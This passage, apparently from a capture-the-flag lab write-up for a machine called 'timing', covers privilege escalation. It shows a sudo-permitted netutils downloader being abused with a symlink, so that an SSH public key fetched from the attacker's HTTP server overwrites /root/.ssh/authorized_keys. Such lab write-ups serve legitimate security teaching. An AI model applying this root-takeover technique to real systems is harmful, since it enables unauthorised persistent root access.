 ## Privilege Escalation

### Sudo Privileges

When we check `sudo` privileges, we see this:

```
aaron@timing:~$ sudo -l                                                                                             
Matching Defaults entries for aaron on timing:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User aaron may run the following commands on timing:
    (ALL) NOPASSWD: /usr/bin/netutils
```

This was a `bash` script that was running `netutils.jar`.

```
aaron@timing:~$ cat /usr/bin/netutils
#! /bin/bash
java -jar /root/netutils.jar
```

We can't analyse the source code statically, so let's go with dynamic analysis. This thing seems to send requests to download stuff:

```
aron@timing:~$ sudo /usr/bin/netutils
netutils v0.1
Select one option:
[0] FTP
[1] HTTP
[2] Quit
Input >> 1
Enter Url: 10.10.14.13
Initializing download: http://10.10.14.13

$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.129.71.202 - - [11/May/2023 02:41:56] "GET / HTTP/1.0" 200 -
10.129.71.202 - - [11/May/2023 02:41:56] "GET / HTTP/1.0" 200 -
```

We can use symlinks to abuse this by creating a symlink to overwrite any file since we are running this as `root`. First, create a symlink that points to the `authorized_keys` folder. Then, download our own `public.key` file with my SSH public key in it and it will be downloaded to the `root` SSH directory.

```
aaron@timing:~$ ln -s /root/.ssh/authorized_keys public.key
aaron@timing:~$ sudo /usr/bin/netutils
netutils v0.1
Select one option:
[0] FTP
[1] HTTP
[2] Quit
Input >> 1
Enter Url: http://10.10.14.13/public.key
Initializing download: http://10.10.14.13/public.key
File size: 391 bytes
Opening output file public.key
Server unsupported, starting from scratch with one connection.
Starting download

Downloaded 391 byte in 0 seconds. (3.81 KB/s)
```